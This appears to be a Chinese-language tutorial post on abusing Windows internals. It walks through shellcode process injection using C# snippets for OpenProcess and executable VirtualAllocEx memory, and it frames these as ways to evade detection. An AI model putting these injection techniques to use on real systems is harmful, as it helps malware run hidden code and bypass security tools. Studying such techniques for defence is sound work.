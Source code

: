 # Abusing Windows Internals

**从这一章开始，讲的东西也是非常的重要，我个人认为可能对于未来的进一步学习有着重要的影响**

**还是老样子，非必要的情况下，我只展示C#版本的代码**

**利用Windows内部组件，使用与工具无关的现代方法避开常见的检测解决方案。**

Windows 内部是 Windows 操作系统运行方式的核心;这为对手提供了一个有利可图的恶意使用目标。Windows 内部可用于隐藏和执行代码、逃避检测以及与其他技术或漏洞链接。

---

# 滥用进程

进程注入通常用作一个总体术语，用于描述通过合法功能或组件将恶意代码注入进程。我们将在这个房间里重点介绍四种不同类型的工艺注入，概述如下。

![在这里插入图片描述](https://img-blog.csdnimg.cn/91a18e87f0c748848db1ccca1afb285f.png)

### 进程注入

在最基本的层面上，进程注入采用shellcode注入的形式。

在高级别上，shellcode 注入可以分为四个步骤：

1) 打开具有所有访问权限的目标进程。
2) 为外壳代码分配目标进程内存。
3) 将外壳代码写入目标进程中分配的内存。
4) 使用远程线程执行外壳代码。

在 shellcode 注入的第一步，我们需要使用特殊参数打开一个目标进程。 OpenProcess用于打开通过命令行提供的目标进程。

```csharp
[DllImport("kernel32.dll", SetLastError=true, ExactSpelling=true)]
public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, uint processId);

...

IntPtr processHandle = OpenProcess(0x001F0FFF, false, Uint.Parse(args[0]));
```

有关C#调用win api的信息可以在pinvoke.net和微软官方文档上找到

在第二步，我们必须为外壳代码的字节大小分配内存。内存分配使用 VirtualAllocEx

```csharp
[DllImport("kernel32.dll", SetLastError=true, ExactSpelling =true)]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

...

// 0x3000表示MEM_RESERVE和MEM_COMMIT
// 0x40表示PAGE_EXECUTE_READWRITE
IntPtr address = VirtualAllocEx(processHandle, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```
